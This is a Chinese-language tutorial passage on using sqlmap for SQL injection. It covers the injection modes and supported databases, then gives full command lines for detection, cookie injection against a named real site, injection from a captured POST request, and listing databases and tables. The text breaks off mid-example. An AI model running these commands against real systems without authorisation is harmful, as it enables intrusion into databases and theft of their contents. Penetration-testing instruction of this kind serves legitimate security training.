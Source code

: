 sqlmap也是渗透中常用的一个注入工具，其实在注入工具方面，一个sqlmap就足够用了，只要你用的熟，秒杀各种工具。
学习sqlmap前，建议了解SQL注入实现原理与基本的手工注入操作，更易于理解sqlmap的使用。

##sqlmap简介

sqlmap支持五种不同的注入模式：

- 1、基于布尔的盲注，即可以根据返回页面判断条件真假的注入。
- 2、基于时间的盲注，即不能根据页面返回内容判断任何信息，用条件语句查看时间延迟语句是否执行（即页面返回时间是否增加）来判断。
- 3、基于报错注入，即页面会返回错误信息，或者把注入的语句的结果直接返回在页面中。
- 4、联合查询注入，可以使用union的情况下的注入。
- 5、堆查询注入，可以同时执行多条语句的执行时的注入。

##sqlmap支持的数据库

MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase和SAP MaxDB

## 检测注入

### 基本格式

sqlmap -u “http://www.vuln.cn/post.php?id=1”

默认使用level1检测全部数据库类型

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3

指定数据库类型为mysql，级别为3（共5级，级别越高，检测越全面）

### 跟随302跳转

当注入页面错误的时候，自动跳转到另一个页面的时候需要跟随302，
当注入错误的时候，先报错再跳转的时候，不需要跟随302。
目的就是：要追踪到错误信息。

### cookie注入

当程序有防get注入的时候，可以使用cookie注入
sqlmap -u “http://www.baidu.com/shownews.asp” –cookie “id=11” –level 2（只有level达到2才会检测cookie）

### 从post数据包中注入

可以使用burpsuite或者temperdata等工具来抓取post包

sqlmap -r “c:\tools\request.txt” -p “username” –dbms mysql    指定username参数

## 注入成功后

### 获取数据库基本信息

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 –dbs

查询有哪些数据库

sqlmap -u “http://www.vuln.cn/post.php?id=1”  –dbms mysql –level 3 -D test –tables
